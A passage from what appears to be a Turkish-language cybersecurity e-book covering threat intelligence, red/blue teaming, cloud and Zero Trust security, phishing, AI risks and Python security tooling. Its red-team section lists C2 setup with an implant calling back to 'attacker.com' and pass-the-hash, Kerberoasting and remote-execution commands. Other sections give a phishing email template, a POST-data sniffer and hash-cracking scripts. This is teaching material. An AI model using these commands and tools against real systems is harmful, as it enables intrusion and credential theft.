        <li>Command and Control (Komuta-Kontrol)</li>
        <li>Exfiltration (Veri Sızdırma)</li>
        <li>Impact (Etki)</li>
      </ol>

      <h2>9.3 Uzlaşma Göstergeleri (IoC) Yönetimi</h2>
      <p>Uzlaşma Göstergeleri (Indicators of Compromise — IoC); bir sistemin tehdit altında olduğunun ya da ihlal
        edildiğinin dijital kanıtlarıdır. IP adresleri, domain adları, URL'ler, dosya hash değerleri, registry
        anahtarları ve mutex adları başlıca IoC türlerini oluşturur.</p>

      <pre><code># STIX/TAXII ile tehdit istihbaratı paylaşımı
# Python — cabby kütüphanesiyle TAXII sorgusu
from cabby import create_client

client = create_client('taxii.threatfeed.com', use_https=True)
collections = client.get_collections()

# Yerel IoC arama — grep ile log tarama
IOCLAR=(
  "185.220.101.50"    # Bilinen Tor çıkış düğümü
  "malicious-domain.com"
  "5d41402abc4b2a76b9719d911017c592"  # MD5 hash
)

for ioc in "${IOCLAR[@]}"; do
    grep -r "$ioc" /var/log/ 2>/dev/null && echo "IOC Bulundu: $ioc"
done

# VirusTotal API entegrasyonu
import requests
API_KEY = "VT_API_KEY"
def vt_hash_check(file_hash):
    url = f"https://www.virustotal.com/api/v3/files/{file_hash}"
    headers = {"x-apikey": API_KEY}
    r = requests.get(url, headers=headers)
    return r.json()</code></pre>

      <h2>9.4 Tehdit İstihbarat Platformları (TIP)</h2>
      <p>Tehdit İstihbarat Platformları; IoC'leri toplamak, depolamak, zenginleştirmek ve güvenlik araçlarıyla entegre
        etmek için kullanılan özelleşmiş platformlardır. OpenCTI ve MISP açık kaynaklı; Recorded Future, Mandiant
        Advantage ve CrowdStrike Falcon Intelligence ticari seçenekler arasında sayılabilir.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 10: RED TEAM / BLUE TEAM / PURPLE TEAM
══════════════════════════════════════════════════════ -->
    <section id="ch10" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Red Team / Blue Team /<br>Purple Team</h1>
      <p class="chapter-lead">
        Kurumsal güvenlik olgunluğunun zirvesinde yer alan adversary simulation programları; gerçek saldırgan
        davranışlarını simüle ederek savunma kapasitesini test eden ve geliştiren kapsamlı bir çerçeve sunar.
      </p>

      <div class="gold-rule"></div>

      <h2>10.1 Red Team: Saldırı Simülasyonu</h2>
      <p>Red Team; kurumun güvenlik politikaları, süreçleri ve teknolojisinin gerçek bir saldırgan gibi davranan
        profesyoneller tarafından kapsamlı biçimde test edildiği tam ölçekli bir adversary simulation programıdır. Basit
        bir sızma testinin ötesinde; sosyal mühendislik, fiziksel güvenlik testleri ve uzun soluklu kampanyaları kapsar.
      </p>

      <h3>10.1.1 C2 Altyapısı Kurulumu</h3>
      <pre><code># Cobalt Strike (lisanslı) alternatifi — Havoc C2 (açık kaynak)
# C2 sunucu kurulumu
git clone https://github.com/HavocFramework/Havoc
cd Havoc && make

# Sliver C2 — Go tabanlı açık kaynak
curl https://sliver.sh/install | sudo bash
sliver-server daemon &
sliver-client connect localhost:31337

# Listener oluşturma
sliver > mtls --lport 8888

# Implant derleme
sliver > generate --mtls attacker.com --os windows --arch amd64 --save /tmp/implant.exe</code></pre>

      <h3>10.1.2 Yanal Hareket Teknikleri</h3>
      <pre><code># Pass-the-Hash saldırısı
impacket-psexec -hashes :NTLM_HASH administrator@192.168.1.10

# Kerberoasting — Servis hesabı hash'i çıkarma
impacket-GetUserSPNs domain.local/kullanici:parola -dc-ip 10.0.0.1 -request

# BloodHound — AD ilişki haritalaması
bloodhound-python -u kullanici -p parola -d domain.local -ns 10.0.0.1 -c all

# WMI ile uzak komut çalıştırma
impacket-wmiexec domain.local/admin:parola@192.168.1.10</code></pre>

      <h2>10.2 Blue Team: Savunma Operasyonları</h2>
      <p>Blue Team; kurumun siber güvenlik savunma faaliyetlerini yürüten iç ekibi temsil eder. SOC (Security Operations
        Center) bünyesinde çalışan Blue Team; tehditleri izleme, tespit etme, analiz etme ve müdahale etme sorumluluğunu
        taşır.</p>

      <h3>10.2.1 SIEM ile Olay Tespiti</h3>
      <pre><code"># Elastic SIEM / Kibana — KQL sorgu örnekleri

# Başarısız oturum açma brute force tespiti
event.code: 4625 | stats count by source.ip | where count > 10

# Yetkisiz PowerShell çalıştırma
process.name: "powershell.exe" and process.args: "*-EncodedCommand*"

# Lateral movement — PsExec tespiti
event.code: 7045 and winlog.event_data.ServiceName: "PSEXESVC"

# Anormal ağ bağlantısı — Beaconing tespiti
destination.port: (80 or 443 or 8080) and
network.bytes < 10000 and
@timestamp: * | stats count by source.ip, destination.ip | where count > 100

# Splunk SPL sorgu örnekleri
index=windows EventCode=4624 Logon_Type=3 NOT src_ip=10.0.0.0/8
| stats count by src_ip, user | sort -count

# Credential dumping tespiti (Mimikatz)
index=sysmon EventCode=10 TargetImage="*lsass.exe"
| table _time, SourceImage, TargetImage</code></pre>

      <h2>10.3 Purple Team: Sürekli İyileştirme Döngüsü</h2>
      <p>Purple Team yaklaşımı; Red Team ve Blue Team'in silo'larını kıran, her iki tarafın birlikte çalışarak savunma
        kapasitesini sürekli geliştirdiği işbirlikçi bir modeldir. Her saldırı tekniği test edilirken Blue Team'in bunu
        tespit edip tespit edemediği birlikte değerlendirilir; eksiklikler anında giderilir.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 11: BULUT GÜVENLİĞİ
══════════════════════════════════════════════════════ -->
    <section id="ch11" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Bulut Güvenliği<br>(Cloud Security)</h1>
      <p class="chapter-lead">
        Bulut bilişim; ölçeklenebilirlik ve maliyet avantajları sunurken beraberinde farklı risk ve sorumluluk
        dinamikleri getirmektedir. Paylaşılan sorumluluk modeli; güvenliğin hem sağlayıcı hem de müşteri tarafından
        sahiplenilmesini zorunlu kılar.
      </p>

      <div class="gold-rule"></div>

      <h2>11.1 Paylaşılan Sorumluluk Modeli</h2>
      <p>Bulut güvenliğinin temelinde yatan en kritik kavram; müşteri ile bulut sağlayıcısı arasındaki sorumluluk
        sınırlarının netleştirilmesidir. Bu sınır; kullanılan servis modeline (IaaS, PaaS, SaaS) göre farklılık
        gösterir.</p>

      <table>
        <thead>
          <tr>
            <th>Sorumluluk Alanı</th>
            <th>IaaS</th>
            <th>PaaS</th>
            <th>SaaS</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>Veri</td>
            <td>Müşteri</td>
            <td>Müşteri</td>
            <td>Müşteri</td>
          </tr>
          <tr>
            <td>Kimlik/Erişim</td>
            <td>Müşteri</td>
            <td>Müşteri</td>
            <td>Paylaşımlı</td>
          </tr>
          <tr>
            <td>Uygulama</td>
            <td>Müşteri</td>
            <td>Müşteri</td>
            <td>Sağlayıcı</td>
          </tr>
          <tr>
            <td>OS/Runtime</td>
            <td>Müşteri</td>
            <td>Sağlayıcı</td>
            <td>Sağlayıcı</td>
          </tr>
          <tr>
            <td>Ağ Kontrolü</td>
            <td>Paylaşımlı</td>
            <td>Sağlayıcı</td>
            <td>Sağlayıcı</td>
          </tr>
          <tr>
            <td>Fiziksel Altyapı</td>
            <td>Sağlayıcı</td>
            <td>Sağlayıcı</td>
            <td>Sağlayıcı</td>
          </tr>
        </tbody>
      </table>

      <h2>11.2 AWS Güvenlik Yapılandırması</h2>
      <pre><code># AWS CLI — IAM En Az Ayrıcalık Kontrolü
aws iam get-account-summary
aws iam list-users --output table
aws iam list-attached-user-policies --user-name kullanici

# Açık S3 bucket tespiti
aws s3api list-buckets --query 'Buckets[].Name'
aws s3api get-bucket-acl --bucket hedef-bucket-adi
aws s3api get-bucket-policy --bucket hedef-bucket-adi

# Security Group — Açık SSH tespiti
aws ec2 describe-security-groups --query \
  "SecurityGroups[?contains(IpPermissions[].IpRanges[].CidrIp, '0.0.0.0/0')].[GroupId,GroupName]"

# CloudTrail log analizi — Şüpheli API çağrıları
aws logs filter-log-events \
  --log-group-name CloudTrail/DefaultLogGroup \
  --filter-pattern '{ $.errorCode = "*UnauthorizedAccess*" }'

# ScoutSuite — Otomatik bulut güvenlik denetimi
scout aws --report-dir ./raporlar</code></pre>

      <h2>11.3 Container ve Kubernetes Güvenliği</h2>
      <p>Konteyner teknolojileri; uygulama geliştirme ve dağıtımında devrim yaratırken kendine özgü güvenlik zorlukları
        da beraberinde getirmiştir. Docker imajlarındaki güvenlik açıkları, aşırı ayrıcalıklı konteynerler ve yanlış
        yapılandırılmış Kubernetes ortamları saldırganlar için cazip hedefler oluşturur.</p>

      <pre><code># Docker imajı güvenlik taraması
docker scan ubuntu:latest
trivy image nginx:latest
snyk container test myapp:latest

# Kubernetes yapılandırma analizi
kube-bench run --targets master,node
kubeaudit all -f audit_raporu.txt

# Aşırı ayrıcalıklı pod tespiti
kubectl get pods --all-namespaces -o json | \
  jq '.items[] | select(.spec.containers[].securityContext.privileged == true)'

# NetworkPolicy kontrolü
kubectl get networkpolicies --all-namespaces
kubectl describe networkpolicy -n production</code></pre>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 12: ZERO TRUST
══════════════════════════════════════════════════════ -->
    <section id="ch12" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Zero Trust Mimari ve<br>Kimlik Güvenliği</h1>
      <p class="chapter-lead">
        "Asla güvenme, daima doğrula" felsefesine dayanan Zero Trust; geleneksel perimetre tabanlı güvenlik anlayışının
        yerini alan modern güvenlik paradigmasıdır. Ağ konumundan bağımsız olarak her erişim isteği doğrulanır ve
        yetkilendirilir.
      </p>

      <div class="gold-rule"></div>

      <h2>12.1 Zero Trust Prensipleri</h2>

      <div class="callout" data-label="Zero Trust Temel İlkeleri">
        <p><strong style="color:var(--gold);">1. Asla Güvenme, Daima Doğrula:</strong> Ağ içinde ya da dışında
          olmasından bağımsız olarak hiçbir kullanıcı, cihaz veya hizmet varsayılan olarak güvenilir kabul edilmez.</p>
        <p><strong style="color:var(--gold);">2. En Az Ayrıcalık:</strong> Her erişim isteği yalnızca gerekli minimum
          yetkiyle karşılanır. Just-In-Time (JIT) ve Just-Enough-Access (JEA) modelleri benimsenir.</p>
        <p><strong style="color:var(--gold);">3. İhlal Varsayımı:</strong> Sistemin zaten ihlal edildiği varsayılarak
          lateral movement sınırlandırılır, end-to-end şifreleme uygulanır ve kapsamlı telemetri toplanır.</p>
      </div>

      <h2>12.2 Kimlik Merkezli Güvenlik</h2>
      <p>Zero Trust'ın uygulanmasında kimlik; yeni perimetre olarak konumlanır. Tüm erişim kararları; kullanıcı kimliği,
        cihaz durumu, konum, zaman ve davranış analizine dayalı dinamik bir risk değerlendirmesine göre verilir.</p>

      <h3>12.2.1 Çok Faktörlü Kimlik Doğrulama (MFA)</h3>
      <p>MFA; hesap ele geçirme saldırılarının büyük çoğunluğunu engelleyen en etkili güvenlik kontrollerinden biridir.
        Microsoft'un araştırmalarına göre MFA; otomatik hesap saldırılarının %99.9'unu engeller. TOTP (Time-based OTP),
        FIDO2/WebAuthn ve push notification tabanlı MFA seçenekleri arasında en güvenli olanı FIDO2'dir.</p>

      <h3>12.2.2 Privileged Access Management (PAM)</h3>
      <p>PAM çözümleri; ayrıcalıklı hesapların (domain admin, root, servis hesapları) güvenli yönetimini sağlar. Şifre
        kasası, oturum kaydı, JIT erişim ve ayrıcalıklı aktivite izleme PAM'ın temel özelliklerini oluşturur. CyberArk,
        Thycotic ve HashiCorp Vault bu alandaki öne çıkan çözümlerdir.</p>

      <h2>12.3 Mikrosegmentasyon</h2>
      <p>Mikrosegmentasyon; ağı granüler iş yükü düzeyinde izole ederek saldırganların ağ içinde serbestçe hareket
        etmesini engeller. Geleneksel segmentasyonun VLAN sınırlarının çok ötesine geçerek; her uygulama veya iş yükü
        için ayrı güvenlik politikaları tanımlanmasına imkân verir.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 13: SOSYAL MÜHENDİSLİK
══════════════════════════════════════════════════════ -->
    <section id="ch13" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Sosyal Mühendislik ve<br>İnsan Faktörü</h1>
      <p class="chapter-lead">
        Teknik savunmalar ne kadar güçlü olursa olsun, en gelişmiş siber saldırıların önemli bir kısmı insan
        psikolojisini hedef alır. Sosyal mühendislik; teknik değil, psikolojik manipülasyon yoluyla kişileri istenen
        eylemleri gerçekleştirmeye ikna etme sanatıdır.
      </p>

      <div class="gold-rule"></div>

      <h2>13.1 Sosyal Mühendislik Psikolojisi</h2>
      <p>Sosyal mühendislik saldırıları; temel insan psikolojik eğilimlerini sömürür. Robert Cialdini'nin etki ilkeleri
        bu bağlamda kritik referans noktaları sunar:</p>

      <ul>
        <li><strong style="color:var(--gold);">Otorite (Authority):</strong> İnsanlar otoriter figürlere güvenir. "IT
          departmanından arıyorum, acil şifre güncellemeniz gerekiyor" senaryosu bu prensibe dayanır.</li>
        <li><strong style="color:var(--gold);">Kıtlık ve Aciliyet (Scarcity/Urgency):</strong> "Hesabınız 24 saat içinde
          kapatılacak" gibi sahte aciliyetler, eleştirel düşünceyi devre dışı bırakır.</li>
        <li><strong style="color:var(--gold);">Sosyal Kanıt (Social Proof):</strong> "Ekibinizdeki herkes bu formu
          doldurdu" gibi ifadeler, uyum eğilimini tetikler.</li>
        <li><strong style="color:var(--gold);">Beğeni (Liking):</strong> Tanıdık ya da beğenilen birinden gelen
          isteklere uyma ihtimali artar. Spear-phishing'de kurban profilleme bu prensip üzerine kuruludur.</li>
        <li><strong style="color:var(--gold);">Mütekabiliyet (Reciprocity):</strong> Birine yardım ettikten sonra bir
          şey istemek, ret olasılığını düşürür.</li>
      </ul>

      <h2>13.2 Phishing Saldırı Türleri</h2>
      <table>
        <thead>
          <tr>
            <th>Tür</th>
            <th>Hedef</th>
            <th>Teknik</th>
            <th>Zorluk</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong style="color:var(--gold);">Phishing</strong></td>
            <td>Toplu hedef</td>
            <td>Genel, geniş kapsam</td>
            <td>Düşük</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Spear-Phishing</strong></td>
            <td>Belirli kişi/kurum</td>
            <td>Kişiselleştirilmiş, araştırma yoğun</td>
            <td>Yüksek</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Whaling</strong></td>
            <td>C-suite yöneticiler</td>
            <td>Üst düzey kişiselleştirme</td>
            <td>Çok Yüksek</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Vishing</strong></td>
            <td>Telefon görüşmesi</td>
            <td>Sesli sosyal mühendislik</td>
            <td>Orta</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Smishing</strong></td>
            <td>SMS mesajı</td>
            <td>Kısa mesaj tabanlı</td>
            <td>Düşük</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Business Email Compromise</strong></td>
            <td>Finans/muhasebe</td>
            <td>Yönetici taklit</td>
            <td>Yüksek</td>
          </tr>
        </tbody>
      </table>

      <h2>13.3 Phishing Kampanyası Simülasyonu</h2>
      <pre><code># GoPhish — Açık kaynak phishing simülasyon platformu
# Kurulum
wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
unzip gophish*.zip && ./gophish &

# API ile kampanya oluşturma
import requests, json

base_url = "https://localhost:3333/api"
api_key = "GOPHISH_API_KEY"
headers = {"Authorization": f"Bearer {api_key}"}

# E-posta şablonu oluşturma
template = {
    "name": "IT Güvenlik Uyarısı",
    "subject": "Acil: Şifrenizi Güncellemeniz Gerekiyor",
    "html": "&lt;p&gt;Sayın {{.FirstName}},&lt;br&gt;Lütfen &lt;a href='{{.URL}}'&gt;tıklayın&lt;/a&gt;&lt;/p&gt;"
}
requests.post(f"{base_url}/templates/", json=template, headers=headers, verify=False)</code></pre>

      <h2>13.4 Güvenlik Farkındalığı Eğitimi</h2>
      <p>Sosyal mühendislik saldırılarına karşı en etkili savunma; teknolojik değil insani bir savunmadır: güvenlik
        farkındalığı eğitimi. Ancak yıllık zorunlu eğitim modul formatı yetersiz kalmaktadır; davranış değişikliği
        yaratan eğitimler şu özelliklere sahip olmalıdır:</p>

      <ul>
        <li>Gerçek saldırı senaryolarını simüle eden pratik uygulamalar</li>
        <li>Anlık geri bildirim ve öğrenme momentleri</li>
        <li>Sürekli ve kısa formatlı içerik (microlearning)</li>
        <li>Ölçülebilir davranış metrikleri (tıklama oranı takibi)</li>
        <li>Olumlu pekiştirme ve cezasız raporlama kültürü</li>
      </ul>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 14: YAPAY ZEKÂ VE SİBER GÜVENLİK
══════════════════════════════════════════════════════ -->
    <section id="ch14" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Yapay Zekâ ve<br>Siber Güvenlik</h1>
      <p class="chapter-lead">
        Yapay zekânın siber güvenlik alanına girişi; hem savunma kapasitesini güçlendiren hem de saldırı
        sofistikasyonunu artıran çift taraflı bir dönüşümü beraberinde getirmektedir. Bu ikili etki, sektörün en dinamik
        evrimini temsil etmektedir.
      </p>

      <div class="gold-rule"></div>

      <h2>14.1 Savunmada Yapay Zekâ</h2>
      <p>Makine öğrenimi ve yapay zekâ; güvenlik analistlerinin işlem kapasitesini katlayan, insan gözünün
        kaçırabileceği anomalileri tespit eden ve müdahale sürelerini dramatik biçimde kısaltan güçlü araçlar
        sunmaktadır.</p>

      <h3>14.1.1 UEBA: Kullanıcı ve Varlık Davranış Analitiği</h3>
      <p>UEBA (User and Entity Behavior Analytics); normal davranışın istatistiksel modelini oluşturarak sapmalar
        üzerinden tehditleri tespit eder. İçeriden tehdit tespiti, ele geçirilmiş hesap tanımlama ve veri sızdırma
        tespitinde özellikle etkilidir.</p>

      <pre><code># Python — Anomali tespiti (Isolation Forest örneği)
import pandas as pd
import numpy as np
from sklearn.ensemble import IsolationForest
from sklearn.preprocessing import StandardScaler

# Kullanıcı log verisi yükleme
df = pd.read_csv('kullanici_logu.csv')

# Özellik mühendisliği
features = ['login_count', 'failed_logins', 'data_accessed_mb',
            'after_hours_logins', 'unique_ips']

X = df[features]
scaler = StandardScaler()
X_scaled = scaler.fit_transform(X)

# Isolation Forest modeli
model = IsolationForest(contamination=0.05, random_state=42, n_estimators=200)
df['anomaly_score'] = model.fit_predict(X_scaled)
df['anomaly'] = (df['anomaly_score'] == -1)

# Anomali tespiti
anomaliler = df[df['anomaly'] == True]
print(f"Tespit edilen anomali: {len(anomaliler)}")
print(anomaliler[['kullanici', 'tarih'] + features].head(20))</code></pre>

      <h2>14.2 Saldırıda Yapay Zekâ</h2>
      <p>Yapay zekânın saldırı vektörlerinde kullanımı, siber tehdit ortamını köklü biçimde değiştirmektedir.
        Kişiselleştirilmiş phishing içeriklerinin oluşturulması, deepfake ses ve video ile gerçekleştirilen vishing
        saldırıları ve otomatik güvenlik açığı keşfi bu dönüşümün öne çıkan örnekleridir.</p>

      <blockquote>
        Bir araştırmaya göre, yapay zekâ destekli geliştirilen kodların yaklaşık %45'i güvenlik açıkları içermektedir.
        Bu çalıştığı anlamına gelir, ancak ciddi zafiyetler barındırır — OWASP Top-10 listesindeki XSS, Log Injection
        gibi risklerle ilişkili olabilmektedir.
        <br><br>— Toprak Ahmet Aydoğmuş, LinkedIn Yazıları
      </blockquote>

      <h3>14.2.1 LLM Tabanlı Saldırılar</h3>
      <p>Büyük Dil Modelleri (LLM) güvenlik riskleri hızla gelişmektedir:</p>
      <ul>
        <li><strong style="color:var(--gold);">Prompt Injection:</strong> Kötü amaçlı girdilerle LLM sisteminin istenen
          dışı çıktı üretmesi</li>
        <li><strong style="color:var(--gold);">Jailbreaking:</strong> Güvenlik filtrelerini atlayan prompt mühendisliği
          teknikleri</li>
        <li><strong style="color:var(--gold);">Training Data Poisoning:</strong> Model eğitim verisinin manipülasyonu
        </li>
        <li><strong style="color:var(--gold);">Model Inversion:</strong> Model çıktılarından eğitim verisini geri
          mühendislik</li>
      </ul>

      <h2>14.3 AI Güvenliği En İyi Uygulamaları</h2>
      <p>AI destekli kod üretim araçları verimliliği artırırken güvenlik risklerini de beraberinde getirir. Üretim
        ortamına çıkacak AI kodunun mutlaka şu kontrollerden geçirilmesi şarttır:</p>

      <ol>
        <li>Manuel güvenlik incelemesi (kod review)</li>
        <li>Statik analiz araçları (SAST — Bandit, SonarQube)</li>
        <li>Dinamik analiz ve güvenlik testleri (DAST)</li>
        <li>Bağımlılık güvenlik açığı taraması (SCA — Snyk, OWASP Dependency-Check)</li>
        <li>Penetrasyon testi</li>
      </ol>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 15: PYTHON İLE SİBER GÜVENLİK
══════════════════════════════════════════════════════ -->
    <section id="ch15" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Python ile Siber Güvenlik<br>Araç Geliştirme</h1>
      <p class="chapter-lead">
        Python; siber güvenlik profesyonellerinin en çok başvurduğu programlama dilidir. Zengin kütüphane ekosistemi,
        okunabilir sözdizimi ve hızlı prototipleme kapasitesiyle otomasyon, araç geliştirme ve araştırma alanlarında
        vazgeçilmez bir konumdadır.
      </p>

      <div class="gold-rule"></div>

      <h2>15.1 Ağ Programlama</h2>

      <h3>15.1.1 Port Tarayıcı Geliştirme</h3>
      <pre><code>#!/usr/bin/env python3
"""
Temel Port Tarayıcı
Geliştiren: Toprak Ahmet Aydoğmuş | Siber Akademi
toprakahmetaydogmus0@gmail.com
"""
import socket
import sys
import threading
from datetime import datetime
from queue import Queue

class PortTarayici:
    def __init__(self, hedef, portlar, thread_sayisi=100, zaman_asimi=1):
        self.hedef = hedef
        self.portlar = portlar
        self.thread_sayisi = thread_sayisi
        self.zaman_asimi = zaman_asimi
        self.acik_portlar = []
        self.kuyruk = Queue()
        self.kilit = threading.Lock()

    def ip_coz(self):
        try:
            return socket.gethostbyname(self.hedef)
        except socket.gaierror:
            print(f"[!] {self.hedef} çözümlenemedi")
            sys.exit(1)

    def port_tara(self, ip, port):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(self.zaman_asimi)
            sonuc = s.connect_ex((ip, port))
            if sonuc == 0:
                with self.kilit:
                    self.acik_portlar.append(port)
                    print(f"  [+] Port {port:5d} AÇIK")
            s.close()
        except Exception:
            pass

    def worker(self, ip):
        while not self.kuyruk.empty():
            port = self.kuyruk.get()
            self.port_tara(ip, port)
            self.kuyruk.task_done()

    def tara(self):
        ip = self.ip_coz()
        print(f"\n{'='*50}")
        print(f"  Hedef: {self.hedef} ({ip})")
        print(f"  Tarih: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
        print(f"{'='*50}\n")

        for port in self.portlar:
            self.kuyruk.put(port)

        threadler = []
        for _ in range(min(self.thread_sayisi, len(self.portlar))):
            t = threading.Thread(target=self.worker, args=(ip,), daemon=True)
            t.start()
            threadler.append(t)

        self.kuyruk.join()

        print(f"\n[*] Tarama tamamlandı. {len(self.acik_portlar)} açık port")
        return sorted(self.acik_portlar)

if __name__ == "__main__":
    hedef = input("Hedef (IP/hostname): ")
    tarayici = PortTarayici(
        hedef=hedef,
        portlar=range(1, 1025),
        thread_sayisi=200
    )
    acik = tarayici.tara()</code></pre>

      <h3>15.1.2 Ağ Paket Analizi</h3>
      <pre><code>#!/usr/bin/env python3
"""
Scapy ile Ağ Sniffer
"""
from scapy.all import *
from scapy.layers.http import HTTPRequest, HTTPResponse
import argparse

def paket_yakala(paket):
    if paket.haslayer(HTTPRequest):
        url = paket[HTTPRequest].Host.decode() + paket[HTTPRequest].Path.decode()
        method = paket[HTTPRequest].Method.decode()
        print(f"[HTTP REQ] {method} http://{url}")

        # POST veri yakalama (form gönderimi)
        if paket.haslayer(Raw) and method == 'POST':
            raw_data = paket[Raw].load.decode(errors='replace')
            print(f"  [DATA] {raw_data[:200]}")

    elif paket.haslayer(DNS) and paket[DNS].qr == 0:
        dns_istek = paket[DNS].qd.qname.decode()
        print(f"[DNS REQ] {dns_istek}")

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-i', '--interface', default='eth0')
    parser.add_argument('-c', '--count', type=int, default=0)
    args = parser.parse_args()

    print(f"[*] {args.interface} üzerinde paket yakalanıyor...")
    sniff(iface=args.interface, prn=paket_yakala,
          store=False, count=args.count)

if __name__ == "__main__":
    main()</code></pre>

      <h2>15.2 Şifre ve Hash Araçları</h2>
      <pre><code>#!/usr/bin/env python3
"""
Hash Kırma — Dictionary Attack
Geliştiren: Toprak Ahmet Aydoğmuş | Siber Akademi
"""
import hashlib
import sys
from itertools import product
import string

def hash_hesapla(metin, algoritma='sha256'):
    h = hashlib.new(algoritma)
    h.update(metin.encode('utf-8'))
    return h.hexdigest()

def sozluk_saldirisi(hedef_hash, sozluk_dosyasi, algoritma='md5'):
    print(f"[*] Sözlük saldırısı başlıyor...")
    print(f"[*] Hedef hash: {hedef_hash}")

    try:
        with open(sozluk_dosyasi, 'r', errors='ignore') as f:
            for satir_no, satir in enumerate(f, 1):
                deneme = satir.strip()
                hesaplanan = hash_hesapla(deneme, algoritma)

                if hesaplanan == hedef_hash:
                    print(f"\n[+] BULUNDU! Şifre: {deneme}")
                    print(f"[+] {satir_no}. satırda")
                    return deneme

                if satir_no % 10000 == 0:
                    print(f"[.] {satir_no} deneme yapıldı...", end='\r')

    except FileNotFoundError:
        print(f"[!] Sözlük dosyası bulunamadı: {sozluk_dosyasi}")

    print("\n[-] Hash kırılamadı")
    return None

def kaba_kuvvet(hedef_hash, maks_uzunluk=4, algoritma='md5',
                karakter_seti=string.ascii_lowercase + string.digits):
    print(f"[*] Kaba kuvvet saldırısı başlıyor...")
    deneme_sayisi = 0

    for uzunluk in range(1, maks_uzunluk + 1):
        for kombinasyon in product(karakter_seti, repeat=uzunluk):
            deneme = ''.join(kombinasyon)
            deneme_sayisi += 1

            if hash_hesapla(deneme, algoritma) == hedef_hash:
                print(f"\n[+] BULUNDU! Şifre: {deneme}")
                print(f"[+] {deneme_sayisi} denemede kırıldı")
                return deneme

            if deneme_sayisi % 100000 == 0:
                print(f"[.] {deneme_sayisi} deneme...", end='\r')

    return None

# Güvenli parola hash'leme (bcrypt)
import bcrypt

def parola_hashle(parola):
    salt = bcrypt.gensalt(rounds=12)
    return bcrypt.hashpw(parola.encode(), salt)

def parola_dogrula(parola, hashlenmiş):
    return bcrypt.checkpw(parola.encode(), hashlenmiş)</code></pre>

      <h2>15.3 OSINT Otomasyon Scripti</h2>
      <pre><code>#!/usr/bin/env python3
"""
Kapsamlı OSINT Toplayıcı
Geliştiren: Toprak Ahmet Aydoğmuş | Siber Akademi
toprakahmetaydogmus0@gmail.com
"""
import requests
import socket
import json
import subprocess
import re
from bs4 import BeautifulSoup
from datetime import datetime

class OSINTToplayici:
    def __init__(self, hedef):
        self.hedef = hedef
        self.sonuclar = {}
        self.oturum = requests.Session()
        self.oturum.headers.update({
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) Gecko/20100101 Firefox/120.0'
        })

    def dns_bilgisi(self):
        """DNS kayıtları toplama"""
        bilgiler = {}
        try:
            # A kaydı
            bilgiler['A'] = socket.gethostbyname(self.hedef)
        except: pass

        # MX kayıtları
        try:
            result = subprocess.run(['dig', 'MX', self.hedef, '+short'],
                                    capture_output=True, text=True)
            bilgiler['MX'] = result.stdout.strip().split('\n')
        except: pass

        # TXT kayıtları (SPF, DKIM, DMARC)
        try:
            result = subprocess.run(['dig', 'TXT', self.hedef, '+short'],
                                    capture_output=True, text=True)
            bilgiler['TXT'] = result.stdout.strip()
        except: pass

        self.sonuclar['dns'] = bilgiler
        return bilgiler

    def subdomains_bul(self):
        """Crt.sh üzerinden subdomain keşfi"""
        url = f"https://crt.sh/?q=%.{self.hedef}&output=json"
        try:
            r = self.oturum.get(url, timeout=15)
            veri = r.json()
            subdomainler = set()
            for kayit in veri:
                for isim in kayit.get('name_value', '').split('\n'):
                    isim = isim.strip().lstrip('*.')
                    if isim and '.' in isim:
                        subdomainler.add(isim)
            self.sonuclar['subdomainler'] = sorted(subdomainler)
            return sorted(subdomainler)
        except Exception as e:
            print(f"[!] Subdomain hatası: {e}")
            return []

    def shodan_sorgula(self, api_key):
        """Shodan API sorgusu"""
        try:
            ip = socket.gethostbyname(self.hedef)
